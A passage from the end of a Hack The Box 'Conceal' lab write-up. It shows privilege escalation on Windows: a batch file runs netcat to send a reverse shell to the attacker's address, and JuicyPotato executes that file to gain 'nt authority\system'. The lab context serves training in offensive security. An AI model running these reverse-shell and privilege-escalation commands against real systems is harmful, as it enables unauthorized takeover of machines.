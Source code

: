 ![](/images/hackthebox/conceal/25.png)
#### I created a `bat` file that executes : `nc.exe -e cmd.exe 10.10.xx.xx 1340` to get me a reverse shell :
`echo C:\users\Destitute\appdata\local\temp\nc.exe -e cmd.exe 10.10.xx.xx 1340 > rev.bat`
#### Then I ran `juicypotato.exe` and made it execute that `bat` file :
`juicypotato.exe -p C:\users\Destitute\appdata\local\temp\rev.bat -l 1340 -t * -c {e60687f7-01a1-40aa-86ac-db1cbf673334}`
![](/images/hackthebox/conceal/26.png)
#### It worked fine and we got a reverse shell as `nt authority\system`
![](/images/hackthebox/conceal/27.png)
<br>
<br>
![](/images/hackthebox/conceal/28.png)
#### And we owned root !
<br>
<br>
#### That's it , Feedback is appreciated !
#### Don't forget to read the [previous write-ups](/categories) , Tweet about the write-up if you liked it , follow on twitter [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
#### Thanks for reading.